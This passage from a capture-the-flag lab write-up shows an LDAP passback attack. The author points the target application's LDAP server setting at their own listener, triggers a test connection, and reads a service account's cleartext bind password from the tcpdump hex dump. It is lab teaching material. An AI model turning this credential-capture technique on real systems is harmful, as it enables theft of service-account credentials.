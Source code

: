 ```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

We can now modify the ldap server of the application by putting our ldap server and see what happens, CAUTION!: put in ldap and not ldap(s), yes I literally get blocked on it for an evening because of this...

![UpdateLdap](/assets/authority/updateLdap.png)

You can click on the "test LDAP profile" button to receive your LDAP connection: 
```
#TCPdump result 
21:10:38.102271 IP authority.htb.50619 > 10.10.16.3.ldap: Flags [SEW], seq 2719860159, win 64240, options [mss 1338,nop,wscale 8,nop,nop,sackOK], length 0
        0x0000:  4502 0034 3ea7 4000 7f06 8d26 0a0a 0bde  E..4>.@....&....
        0x0010:  0a0a 1003 c5bb 0185 a21d c5bf 0000 0000  ................
        0x0020:  80c2 faf0 14c7 0000 0204 053a 0103 0308  ...........:....
        0x0030:  0101 0402                                ....
21:10:38.102314 IP 10.10.16.3.ldap > authority.htb.50619: Flags [S.], seq 2484611885, ack 2719860160, win 64240, options [mss 1460,nop,nop,sackOK,nop,wscale 7], length 0
        0x0000:  4500 0034 0000 4000 4006 0ad0 0a0a 1003  E..4..@.@.......
        0x0010:  0a0a 0bde 0185 c5bb 9418 2b2d a21d c5c0  ..........+-....
        0x0020:  8012 faf0 55b7 0000 0204 05b4 0101 0402  ....U...........
        0x0030:  0103 0307                                ....
21:10:38.151013 IP authority.htb.50619 > 10.10.16.3.ldap: Flags [.], ack 2484611886, win 1024, length 0
        0x0000:  4500 0028 3ea9 4000 7f06 8d32 0a0a 0bde  E..(>.@....2....
        0x0010:  0a0a 1003 c5bb 0185 a21d c5c0 9418 2b2e  ..............+.
        0x0020:  5010 0400 8d7a 0000                      P....z..
21:10:38.219276 IP authority.htb.50619 > 10.10.16.3.ldap: Flags [P.], seq 2719860160:2719860251, ack 2484611886, win 1024, length 91
        0x0000:  4500 0083 3eaa 4000 7f06 8cd6 0a0a 0bde  E...>.@.........
        0x0010:  0a0a 1003 c5bb 0185 a21d c5c0 9418 2b2e  ..............+.
        0x0020:  5018 0400 c5e2 0000 3059 0201 0160 5402  P.......0Y...`T.
        0x0030:  0103 043b 434e 3d73 7663 5f6c 6461 702c  ...;CN=svc_ldap,
        0x0040:  4f55 3d53 6572 7669 6365 2041 6363 6f75  OU=Service.Accou
        0x0050:  6e74 732c 4f55 3d43 4f52 502c 4443 3d61  nts,OU=CORP,DC=a
        0x0060:  7574 686f 7269 7479 2c44 433d 6874 6280  uthority,DC=htb.
        0x0070:  126c 4461 505f 316e 5f74 6833 5f63 6c65  .lDaP_1n_th3_cle
        0x0080:  3472 21                                  4r!
```
If you are careful can see a user and a password in the LDAP request.
